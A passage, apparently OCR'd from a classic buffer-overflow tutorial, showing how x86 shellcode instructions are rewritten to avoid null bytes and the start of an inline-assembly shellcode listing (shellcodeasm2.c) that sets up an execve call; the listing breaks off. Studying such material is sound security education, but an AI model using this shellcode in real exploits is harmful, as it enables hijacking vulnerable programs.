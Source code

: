&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;--------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;movb&nbsp; &nbsp;$0xb,%al

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;--------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%ebx,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%ebx,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;inc&nbsp; &nbsp; %eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;--------------------------------------------------------

&nbsp; &nbsp;Our improved code:

shellcodeasm2.c

------------------------------------------------------------------------------

void main() {

__asm__("

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; 0x1f&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%eax,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;%eax,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%eax,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0xb,%al&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

